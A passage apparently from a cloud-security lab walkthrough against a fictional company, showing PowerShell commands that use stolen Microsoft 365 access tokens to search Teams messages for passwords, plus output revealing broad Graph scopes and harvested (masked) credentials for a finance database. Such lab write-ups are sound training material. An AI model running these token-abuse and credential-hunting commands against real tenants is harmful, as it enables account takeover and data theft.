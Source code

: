 
### 2.3.3 Invoke-SearchTeams
```powershell
Invoke-SearchTeams -SearchTerm * -Tokens $tokens
[*] Using the provided access tokens.
[*] Refreshing token for Teams use...
From: Clara.Miller@megabigtech.com | Summary: Call IT to reset my password for accounting system
Full Message Body: <html><head>
<meta http-equiv="Content-Type" content="text/html; charset=utf-8"></head><body><p>Call IT to reset my password for accounting system</p></body></html>
================================================================================
From: Clara.Miller@megabigtech.com | Summary: password: *****
Full Message Body: <html><head>
<meta http-equiv="Content-Type" content="text/html; charset=utf-8"></head><body><p>password: *****</p></body></html>

```

### 2.3.4 Get-TeamsChat
```powershell
PS> Get-Teamschat -Tokens $tokens
[*] Using the provided access tokens.
[*] Now getting Teams chat conversations for current user.
Invoke-RestMethod: 
Line |
2833 |  … sResponse = Invoke-RestMethod -Uri "$graphBaseUrl$chatEndpoint" -Head …
     |                ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
     | {"error":{"code":"Forbidden","message":"Missing scope permissions on the request. API requires one of 'Chat.ReadBasic, Chat.Read, Chat.ReadWrite'. Scopes on the request 'AuditLog.Create, AuditLog.Read.All, Calendar.ReadWrite, Calendars.Read.Shared, Calendars.ReadWrite, Contacts.ReadWrite, DataLossPreventionPolicy.Evaluate, Directory.AccessAsUser.All, Directory.Read.All, Files.Read, Files.Read.All, Files.ReadWrite.All, Group.Read.All, Group.ReadWrite.All, InformationProtectionPolicy.Read, Mail.ReadWrite, Mail.Send, Notes.Create, Organization.Read.All, People.Read, People.Read.All, Printer.Read.All, PrinterShare.ReadBasic.All, PrintJob.ReadWriteBasic, SensitiveInfoType.Detect, SensitiveInfoType.Read.All, SensitivityLabel.Evaluate, Tasks.ReadWrite, TeamMember.ReadWrite.All, TeamsTab.ReadWriteForChat, User.Read.All, User.ReadBasic.All, User.ReadWrite, Users.Read'","innerError":{"date":"2024-09-12T18:59:37","request-id":"2353bfdc-e820-451a-91d5-a0bf65f61ad2","client-request-id":"2353bfdc-e820-451a-91d5-a0bf65f61ad2"}}}
No chats found for the authenticated user.


```

---


## 2.2 Continue with the Walkthrough.
I used the Google Doc to read the word document. 
If you don't love Database, you are not a tester!! However, this is not possible to access by just looking at the URL. 

```
Service/Account: Finance Database

URL: https://10.10.11.15/login

Username: finadmin

Password: *****

  

Service/Account: Accounting Software

URL: https://accounting.megabigtech.local
```